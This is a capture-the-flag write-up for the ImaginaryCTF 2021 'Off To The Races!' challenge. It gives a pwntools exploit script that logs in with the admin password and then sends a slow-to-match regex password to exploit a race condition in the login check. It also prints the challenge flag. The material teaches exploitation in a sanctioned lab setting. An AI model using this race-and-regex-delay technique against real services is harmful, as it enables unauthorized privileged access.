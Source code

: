 # ImaginaryCTF 2021: Off To The Races!

![date](https://img.shields.io/badge/date-28.07.2021-brightgreen.svg)  ![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg) 

![misc category](https://img.shields.io/badge/category-misc-lightgrey.svg) ![score](https://img.shields.io/badge/score-275-blue.svg) ![solves](https://img.shields.io/badge/solves-39-brightgreen.svg)

## Description

They say that gambling leads to regrets, but we'll see. This online portal lets you bet on horse races, and if you can guess the admin password, you can collect all the money people lose, too. Maybe you'll collect enough to buy the flag?

## Attached files

- [races.py](https://imaginaryctf.org/r/D1DB-races.py)

## Summary

To acquire the flag we need to exploit race condition existing in the program, we will be able to use admin's menu while not being admin both of which are needed to buy a flag.

## Flag

``` ictf{regrets_may_be_the_plural_of_regex_but_ive_no_regrets_from_betting_on_a_sure_thing} ```

## Detailed solution

The program keeps track of how much money admin has, it starts at 0 and we need it to be at least 100 to buy the flag. 

It is very easy to do and does not require any exploits. We can simply bet 100 currency on 3 different horses, then login as admin and pick a winner.
This way whichever horse gets selected, admin account will have 100 currency.

We can do this with simple script

```
#!/bin/python

from pwn import *

io = remote('chal.imaginaryctf.org', 42016)

p = log.progress("Status:")

p.status("Placing bets")
io.recvuntil('>>>')
io.sendline('1')                           # place bet

io.recvuntil('bet on?')
io.sendline('A')                           # horse's name

io.recvuntil('to bet?')
io.sendline('100')                         # how much money

io.recvuntil('>>>')
io.sendline('1')

io.recvuntil('bet on?')
io.sendline('B')

io.recvuntil('to bet?')
io.sendline('100')

io.recvuntil('>>>')
io.sendline('1')

io.recvuntil('bet on?')
io.sendline('C')

io.recvuntil('to bet?')
io.sendline('100')


p.status("Logging in as admin")
io.recvuntil('>>>')

io.sendline('2')                           # login as admin
io.recvuntil('logout):')

io.sendline('ju5tnEvEEvErl05E')            # passwd


p.status("Getting money")
io.recvuntil('>>>')
io.sendline('1')                           # pick winner

io.interactive()
```

If we would check the money now we would see, that we really have the 100 currency.

Admin's password is checked using this regex

``` rx = re.compile(r'ju(5)tn((([E3e])(v\4))+\4\5)+rl0\1\4') ```

which would accept different passwords too, but I will simplify it to

``` 'ju5tn' + 'EvEEvE' * N + 'rl05E' ```

Now we need to somehow get into admin's menu while not being an admin.
It can be achieved thanks to a race condition existing when checking the password.

```
def login():
    pwd = input("Enter admin password (empty to logout): ")
    if len(pwd) == 0:
        print("Logging out...")
        admin = 0
        return
    print("Validating...")
    Process(None, checkPass, None, args=(pwd,)).start()
    time.sleep(2)
    
def checkPass(pwd):
    valid = rx.match(pwd)
    if valid:
        print("Login success!")
        print("Redirecting...")
        admin.value = 1
    else:
        print("Login failure!")
        print("Redirecting...")
        admin.value = 0
```

We can see that password is checked on another thread, and thread displaying menus is just waiting 2 seconds to make sure password is already checked. 
We will exploit that by sending a password that takes long time to get verified, but also is wrong. 
This way the main thread has enough time to display admin's menu for us while password checking thread logs us out.
We now have access to admin commands while not being admin.

All of this can be achieved by modifying our script:
```
...
p.status("Getting money")
io.recvuntil('>>>')
io.sendline('1')


p.status('Logging out')
io.recvuntil('>>>')
io.sendline('4')

io.recvuntil('logout):')
io.sendline(
        'ju5tn' +
        'EvEEvE' * 16 +
        'Rl05E')


p.status('Buying flag /o/')
io.recvuntil('Redirecting...')
io.sendline('3')

io.interactive()
```

We need to send ``` EvEEvE ``` to the server 16 times for the password to need 2 seconds to get checked, this number will vary depending on system performance.
To fail password checking we send ``` Rl05E ``` with **capital** R at the end of the password.

Now we just can wait for password checking thread to log us out and acquire the flag.
